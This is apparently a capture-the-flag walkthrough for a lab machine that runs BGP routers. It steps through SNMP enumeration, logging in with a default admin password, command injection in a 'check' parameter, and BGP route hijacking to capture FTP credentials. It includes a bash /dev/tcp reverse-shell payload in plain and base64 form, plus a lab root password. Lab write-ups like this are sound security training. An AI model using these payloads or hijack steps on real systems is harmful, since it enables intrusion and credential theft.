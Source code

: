 ![](./logo.png)

# USER
80 port leads to a login page

### Versions
```
PHP Version 7.0.30-0ubuntu0.16.04.1
```

A login page with "Lyghtspeed"

### GoBuster
```
/img
/tools
/css
/js
/debug
/doc
```

On /doc found error_code.pdf

Error 45009 tells me default admin password is set

```
System credentials have not been set Default admin user password is set (see chassis serial number)
```

Decided to enumerate more. So I performed a nmap udp scan.

```
nmap.udp.txt
```

Found an open port 161 that is simple management protocol

By running:

```
snmpwalk -v 2c -c public 10.10.10.105
```

You get the string:

```
SN#NET_45JDX23
```

This gives the login

```
admin
NET_45JDX23
```

Diagnostic page has mention of:

```
zebra
bgpd
watchquagga
```

The verify button sends a parameter known as 'check' but seems to place the value straight into a command

This means we can add a ";" and run our own commands!! Reverse shell time!!!

Payload:
```
; bash -i >& /dev/tcp/10.10.14.55/8000 0>&1
```

Base64 Encoded:
```
OyBiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjU1LzgwMDAgMD4mMQo=
```

Gives us a reverse shell

# ROOT

Netstat:
```
tcp        0      0 10.78.10.1:bgp          10.78.10.2:49462        ESTABLISHED
tcp        0      0 10.99.64.2:ssh          10.99.64.251:52270      ESTABLISHED
tcp        0      0 10.78.11.1:bgp          10.78.11.2:47872        ESTABLISHED
tcp        0      8 10.99.64.2:49350        10.10.14.55:8000        ESTABLISHED
tcp        0      0 10.99.64.2:ssh          10.99.64.251:43758      ESTABLISHED
```

In the ticket information we have mention of

```
..."CastCom. still reporting issues with 3 networks: 10.120.15,10.120.16,10.120.17/24's"...
..."issues connecting by FTP to an important server in the 10.120.15.0/24 network"...
```
This shows the aim of the challenge is to obtain the 'important' ftp traffic

# Networks

```
10.120.15.0/24 
10.120.16.0/24
10.120.17.0/24
```

Scanning for active hosts without nmap
```
for x in {15..17} ; do (for i in {1..254} ;do (ping 10.120.$x.$i -c 1 -w 5  >/dev/null && echo "10.120.$x.$i" &) ;done) ; done
```

### 10.120.15.0/24

```
10.120.15.1
10.120.15.10 # FTP?
```

Nothing active on 10.120.16.0/24 or 10.120.17.0/24?

This whole network is a series of bgp routers


Using the vtysh command shell we can view the route a packet will take to reach the target ftp server

```
$ vtysh -c "show ip bgp"

*  10.120.15.0/24   10.78.10.2                             0 200 300 i
*>                  10.78.11.2               0             0 300 i
```

Running our config.sh script on the system downloads our custom script and restarts the service. **This advertises that we are the shorted route to the ftp server.**

Out overall aim is to impersonate the FTP server

Now was able are able to receive the ftp traffic using ftpd.py giving us:

```
2019-03-15 15-54-01 [-] USER: root
2019-03-15 15-54-01 [-] Received data: PASS BGPtelc0rout1ng
```
 You can now ssh onto 10.120.15.10 and get the root flag!

